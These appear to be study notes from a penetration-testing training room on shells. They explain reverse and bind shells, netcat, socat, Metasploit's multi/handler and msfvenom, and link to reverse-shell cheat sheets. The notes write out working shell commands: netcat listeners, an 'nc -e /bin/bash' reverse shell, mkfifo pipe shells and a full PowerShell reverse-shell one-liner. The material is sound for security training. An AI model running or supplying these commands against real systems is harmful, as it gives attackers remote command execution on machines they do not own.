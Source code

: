 A shell is software that allows a user to interact with an OS. It can be a graphical interface, but it is usually a command-line interface, and this will depend on the operating system running on the target system.  
In cyber security, it commonly refers to a specific shell session an attacker uses when accessing a compromised system, allowing them to run commands and execute software. This will allow attackers to execute several activities, some of which are described below.

- **Remote System Control**: allows the attacker to execute commands or software remotely in the target system.
- **Privilege Escalation**
- **Data Exfiltration**
- **Persistence and Maintenance Access**
- **Post-Exploitation Activities**
- **Access Other Systems on the Network** This is also known as pivoting.
There are a variety of tools that we will be using to receive reverse shells and to send bind shells. In general terms, we need malicious shell code, as well as a way of interfacing with the resulting shell. We will discuss each of these briefly below:
### Netcat
Netcat is the traditional "Swiss Army Knife" of networking. It is used to manually perform all kinds of network interactions, including things like banner grabbing during enumeration, but more importantly for our uses, it can be used to receive reverse shells and connect to remote ports attached to bind shells on a target system. Netcat shells are very unstable (easy to lose) by default, but can be improved by techniques that we will be covering in an upcoming task.
### Socat
Socat is like netcat on steroids. It can do all of the same things, and _many_ more. Socat shells are usually more stable than netcat shells out of the box. In this sense it is vastly superior to netcat; however, there are two big catches:

1. The syntax is more difficult
2. Netcat is installed on virtually every Linux distribution by default. Socat is very rarely installed by default.
### Metasploit -- multi/handler
The `exploit/multi/handler` module of the Metasploit framework is, like socat and netcat, used to receive reverse shells. Due to being part of the Metasploit framework, multi/handler provides a fully-fledged way to obtain stable shells, with a wide variety of further options to improve the caught shell. It's also the only way to interact with a _meterpreter_ shell, and is the easiest way to handle _staged_ payloads
### Msfvenom
Like multi/handler, msfvenom is technically part of the Metasploit Framework, however, it is shipped as a standalone tool. Msfvenom is used to generate payloads on the fly. Whilst msfvenom can generate payloads other than reverse and bind shells, these are what we will be focusing on in this room.

### Other useful links
[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
[PentestMonkey](https://web.archive.org/web/20200901140719/http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
[SecLists](https://github.com/danielmiessler/SecLists)

## Types of Shells
### Reverse Shell
Are when the target is forced to execute code that connects back to your computer. On your own computer you would use one of the tools to set up a listener which is used to receive the connection. Reverse shells are a good way to bypass firewall rules, but the drawback is that, you need to configure your network to receive a shell across the internet.
On the attacking machine: `sudo nc -lvnp 443`
On the target: `nc <LOCAL-IP> <PORT> -e /bin/bash`
### Bind Shell
Are when the code executed on the target is used to start a listener attached to a shell directly on the target. This would then be opened up to the internet, meaning you can connect to the port that the code has opened and obtain remote code execution that way. This has the advantage of not requiring any configuration on your own network, but may be prevented by firewalls protecting the target.
On the target: `nc -lvnp <port> -e "cmd.exe"`
On the attacking machine: `nc MACHINE_IP <port>`

### Interactive vs Non-Interactive
#### Interactive
These allow you to interact with programs after executing them. For example, the SSH login prompt.
### Non-Interactive
In a non=interactive shell you are limited to using programs which do not require  user interaction in order to run properly. Unfortunately, the majority of simple reverse and bind shells are non-interactive.

# Shell Payloads
`netcat-traditional` there is no `-e` option which allows you to execute a process on connection.
On linux we can use this code to create a listener for a bind shell:
`mkfifo /tmp/f; nc -lnvp <PORT> < /tmp/f | /bin/sh > /tmp/f 2>&1; rm /tmp/f`

The command first creates a _[named pipe](https://www.linuxjournal.com/article/2156)_ at `/tmp/f`. It then starts a netcat listener, and connects the input of the listener to the output of the named pipe. The output of the netcat connects the input of the listener (i.e. the commands we send) then gets piped directly into sh, sending the stderr ouput steam into stdout, and sending stout itself into the input of the named pipe, thus completing the circle.

A very similar command can be used to send a netcat reverse shell:
`mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`

When targeting a modern Windows Server, it is very common to require a Powershell reverse shell. It is, however, an extremely useful one-liner to keep on hand:

`powershell -c "$client = New-Object System.Net.Sockets.TCPClient('**<ip>**',**<port>**);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"`


